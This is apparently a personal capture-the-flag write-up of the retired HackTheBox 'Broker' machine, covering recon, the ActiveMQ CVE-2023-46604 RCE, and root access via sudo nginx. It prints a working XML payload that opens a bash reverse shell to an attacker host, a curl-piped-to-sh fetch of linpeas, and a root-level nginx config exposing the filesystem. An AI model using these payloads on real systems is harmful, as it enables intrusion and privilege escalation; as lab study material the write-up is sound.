 # Broker
First write-up doing HTB after a long time. I already solved this, so the notes will be from memory.


Metadata:
- OS: Linux
- Difficulty: Easy
- Status: Retired

## Recon

Started with running `nmap -sS <target-ip>` to get some information on the server. Learned that 22 & 80 were open. I didn't know this till after, but from nmap you can get the server being used (nginx).

I figured out it was Nginx by looking at the response header when inspecting the website at port 80.

In hindsight, I could have ran `sudo nmap -p- -sC -sV <target-ip> --open` to get more detail about the box.

_The fact it is using Nginx will be important later._

When you go to `http://<target-ip>`re prompted with a basic auth pop-up. Of course, `admin/admin` would work.

After logging in, you're directed to the splash page of ActiveMQ with the version: `5.15.15` (think I went to /admin to see the version). This is important because it is vulnerable to RCE [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604)

## Exploitation
Googling the CVE, I came across this efficient PoC from `X1r0z`. [Source Code](https://github.com/X1r0z/ActiveMQ-RCE).

```bash
git clone https://github.com/X1r0z/ActiveMQ-RCE.git
cd ActiveMQ-RCE #poc.xml example should exist
```

The PoC was simple enough, you modify an xml file that will be the payload sent and executed by the victim. Here is an example of that: [Thank you 0xdf](https://0xdf.gitlab.io/2023/11/09/htb-broker.html), because I actually needed assistance with privilege escalation. Something I hope to improve on in the future.

```xml
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
            <list>
                <value>bash</value>
                <value>-c</value>
                <value>bash -i &gt;&amp; /dev/tcp/<your-ip>/1337 0&gt;&amp;1</value>
            </list>
            </constructor-arg>
        </bean>
    </beans>
```
Now it was time to connect to the victim machine. It involves 3 steps (I used 3 different terminal windows)

1. poc.xml needs to be hosted so the victim can `curl` and download the xml file.
2. start a netcat listener (port 1337 using my example)
3. run the PoC

```bash
# 1st terminal I run http server using python
python -m http.server #defaults to 8000

# 2nd terminal
ncat -lnvp 1337 # can't be leet if you don't use 1337

# 3rd terminal run the PoC
go run main.go -i <target-ip> -u http://<your-ip>:8000/poc.xml
```

### User Flag
At this point, you should get a shell connection on your 2nd terminal (where you ran netcat). From here, it is a simple `cd` and you'll have the user flag (user.txt).

### Privilege Escalation
This is where I sadly got stumped for a bit. I was able to get `linpeas.sh` on the box using curl and my http.server (port 8000).
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh #where my http server is being served

# from victim terminal
curl http://<your-ip>:8000/linpeas.sh | sh
```

Finally, I decided to look at what others did and came across a clean privilege escalation with Nginx. This is where the rest of the credit goes to `0xdf`. Hopefully with practice, I can improve on privilege escalation. Essentially, `sudo nginx` allows you to run a webserver as root. Thereby, allowing you to expose the root.txt flag.

First, you need to make a nginx.conf. Using `0xdf`'s example, I was able to write the file and `curl` it to the victim's machine (using the http.server).

Now, you want to save this file in a specific location that can run as root (I believe.). I stored it as `0xdf` did at `/dev/shm/nginx.conf`

```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 8008;
        root /;
        autoindex on;
    }
}
```
Next, you want to start the nginx server, `sudo /usr/sbin/nginx -c /dev/shm/nginx.conf`

### Root Flag
Lastly, run `curl http://<your-ip>:8008/root/root.txt` and paste the flag.

## Final Thoughts
This was my first box after not doing HTB for almost 2 years. It was definitely an easy problem due to the vulnerability it focused on (RCE's are really strong). Also, I know the box was retired when I attempted it - made for finding a walkthrough super easy. Overall, I think this was a pretty good challenge. Especially trying to remember how to do things.

I think total time, it took less than an hour to solve. Hopefully in time I can improve on my 'privilege escalation'-fu and use metasploit to save time.

